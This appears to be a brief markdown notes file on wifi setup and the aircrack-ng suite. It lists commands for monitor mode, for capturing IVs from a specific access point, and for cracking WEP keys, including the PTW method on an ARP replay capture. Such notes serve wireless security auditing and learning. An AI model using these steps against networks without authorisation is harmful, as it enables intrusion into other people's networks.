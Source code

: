 # Notes on wifi configs and setup

## Keeping interface names
I was having issues with the external card until adjusting the below.
```bash
$ vim /etc/default/grub
GRUB_CMDLINE_LINUX="net.ifnames=0 biosdevname=0"
```
## airmon-ng
Set interface to monitor mode.
```bash
$ airmon-ng start wlan1
```

## airodump-ng
Find surrounding networks, access points and clients
```bash
$ airodump-ng wlan1
```

Begin collection on channel, BSSID and recording to file.

  -`-c`: Select channel number
  -`w`: Write to file
  --`bssid`: MAC address of access point
  -`--ivs`: Save only captured IVs

```bash
$ airodump-ng -c 6 --bssid E0:05:C5:60:2E:65 --ivs -w capture  wlan1
```

## aircrack-ng

Begin cracking IVS file on target BSSID (can perform while airodump-ng is writing).
```bash
$ aircrack-ng capture-01.ivs --bssid E0:05:C5:60:2E:65
```

Invoke PTW WEP cracking method method on an arp replay.
```bash
$ aircrack-ng -z replay_arp-0309-015802.cap
```

